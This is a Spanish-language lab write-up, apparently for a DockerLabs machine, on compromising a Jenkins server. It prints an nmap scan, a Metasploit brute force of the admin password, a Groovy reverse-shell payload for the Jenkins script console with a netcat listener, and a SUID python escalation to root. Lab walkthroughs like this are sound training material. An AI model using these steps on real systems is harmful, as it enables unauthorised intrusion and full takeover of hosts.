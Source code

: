 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/f0527158-e221-41b3-8967-b3869d37af11)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

3. **8080/tcp(HTTP):** Jetty 10.0.20

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador y su puerto correspondiente. Encontramos un inicio de sesión de Jenkins.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/40477dcb-055c-4cb1-8205-c7e899ca4305)

# Fase 2- Exploración

#### Feroxbuster
No encontró nada muy interesante.

# Fase 3- Explotación

#### Jenkins
Jenkins viene con un usuario por defecto, que es el usuario  `admin`, así que vamos a realizarle fuerza bruta a ese usuario. Para esto vamos a usar Metasploit.
```python
msf6 > search jenkins
19  auxiliary/scanner/http/jenkins_login
msf6 > use 19
msf6 auxiliary(scanner/http/jenkins_login) > show options
msf6 auxiliary(scanner/http/jenkins_login) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(scanner/http/jenkins_login) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 auxiliary(scanner/http/jenkins_login) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(scanner/http/jenkins_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/http/jenkins_login) > run
[+] 172.17.0.2:8080 - Login Successful: admin:rockyou
```
Y nos encontró la contraseña del usuario `admin` que es `rockyou`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/1c42b86e-847a-4d39-9995-42a392f89f34)
Y efectivamente, estamos dentro!

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/2240076d-f95f-4b92-a250-72036f3e3537)

Vamos a `Administrar jenkins`, bajamos y nos encontramos con la `consola de scripts`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e56d12b0-f327-4ee7-9965-f11bbcd1a3a6)
En la consola se usa Groovy script, que es un lenguaje parecido a java, en la consola pegamos el siguiente codigo que es una reverse shell:
```java
String host="ip";int port=port;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Nos ponemos en escucha con el siguiente comando: `nc -nlvp 443`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/495011ba-fe47-4017-aa29-8e8c82d5ce77)
Y estamos dentro!.

# Fase 4- Privilegios

#### Sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/aceacab8-ad27-4399-812f-a29e4c2fe37f)

Despues de realizar el tratamiento de la TTY, con el comando `find / -perm -4000 -user root 2>/dev/null` encontramos que podemos ejecutar `python3.10` como usuario `root`.

#### Python3.10
Gtfobins nos dice que para escalar utilizando python, tenemos que ejecutar lo siguiente:
```python
sudo python -c 'import os; os.system("/bin/sh")'
```
Como esto no me funciono, lo modifique de la siguiente forma:
```python
/usr/bin/python3.10 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/dda23b3b-2afc-4b59-89d5-862b12439d5f)

Y somos root!.

